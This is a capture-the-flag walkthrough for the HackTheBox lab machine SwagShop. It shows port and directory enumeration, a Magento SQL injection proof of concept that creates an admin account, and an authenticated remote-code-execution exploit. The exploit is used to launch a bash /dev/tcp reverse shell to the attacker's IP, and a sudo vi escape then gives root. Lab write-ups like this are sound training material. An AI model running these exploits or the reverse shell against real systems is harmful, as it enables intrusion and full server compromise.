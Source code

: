 # HackTheBox
------------------------------------
### IP: 10.129.97.42
### Name: SwagShop
### Difficulty: Easy
--------------------------------------------

SwagShop.png

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.97.42 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-24 08:56 CDT
Nmap scan report for 10.129.97.42
Host is up (0.080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6552bd24e8fa3817261379a12f624ec (RSA)
|   256 2e30007a92f0893059c17756ad51c0ba (ECDSA)
|_  256 4c50d5f270c5fdc4b2f0bc4220326434 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.17 seconds
```

Lets add swagshop.htb to `/etc/hosts`.

We can see that the site on port 80 is running Magento.

Running magescan against the target we see it is running version 1.9.0.0:

```
┌──(ryan㉿kali)-[~/Tools/exploits]
└─$ php magescan.phar scan:all http://swagshop.htb/
Scanning http://swagshop.htb/...

                       
  Magento Information  
                       

+-----------+------------------+
| Parameter | Value            |
+-----------+------------------+
| Edition   | Community        |
| Version   | 1.9.0.0, 1.9.0.1 |
+-----------+------------------+
```

Kicking off some directory fuzzing with:
```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ feroxbuster --url http://swagshop.htb/ -x php txt -q 
```

We find some DB credentials in http://swagshop.htb/app/etc/local.xml

swagshop_xml.png

Continuing through the directory scanning results we find the admin login page at: http://swagshop.htb/index.php/admin

swagshop_admin.png

Looking for Magento exploits I find that Magento Shoplift is vulnerable to SQL injection. We can use the PoC at https://github.com/joren485/Magento-Shoplift-SQLI to create a new user:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_sqli.py http://swagshop.htb
WORKED
Check http://swagshop.htb/admin with creds ypwq:123
```

We can now login at http://swagshop.htb/index.php/admin

swagshop_in.png

Thinking back to the exploits I found for Magento, I recall having seen an authenticated RCE exploit. Now that I have valid credentials, this may work.

I find this script on exploitDB: https://www.exploit-db.com/exploits/37811

But this exploit will need a bit of tweaking for our purposes.

First lets add our created username and password, as well as update the install date variable found at http://swagshop.htb/app/etc/local.xml

swagshop_config.png

Trying to run the script with the updates we've made, we get an error with mechanize:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python magento_rce.py http://swagshop.htb/index.php/admin "whoami"
Traceback (most recent call last):
  File "/home/ryan/HTB/SwagShop/magento_rce.py", line 55, in <module>
    br['login[username]'] = username
    ~~^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_mechanize.py", line 809, in __setitem__
    self.form[name] = val
    ~~~~~~~~~^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 1963, in __setitem__
    control = self.find_control(name)
              ^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 2355, in find_control
    return self._find_control(name, type, kind, id, label, predicate, nr)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/mechanize/_form_controls.py", line 2445, in _find_control
    raise AmbiguityError("more than one control matching " +
mechanize._form_controls.AmbiguityError: more than one control matching name 'login[username]'
```

Lets comment out line 53:

swagshop_comment.png

### Exploitation

Running the exploit again we get execution:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_rce.py http://swagshop.htb/index.php/admin "whoami"
www-data
```

Lets use this to get a reverse shell:

```
┌──(ryan㉿kali)-[~/HTB/SwagShop]
└─$ python2 magento_rce.py http://swagshop.htb/index.php/admin/ "bash -c 'bash -i >& /dev/tcp/10.10.14.108/443 0>&1'" 
```

swagshop_shell.png

We can then grab the user.txt flag:

swagshop_user_flag.png

### Privilege Escalation

Running `sudo -l` to see if user www-data can run anything with elevated permissions, we see they can run vi on files in `/var/www/html`:

```
www-data@swagshop:/home/haris$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

This is a super dangerous setting because we can use vi to execute system commands, and if we can execute those commands with sudo, we effectively have a root shell. 

Lets try it by entering `:sh` in our vi session:

```
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/index.php 
<SNIP>
:sh
root@swagshop:/var/www/html# whoami
root
root@swagshop:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```
We can now grab the root.txt flag:

swagshop_root_flag.png

Thanks for following along!

-Ryan

----------------------------------------------

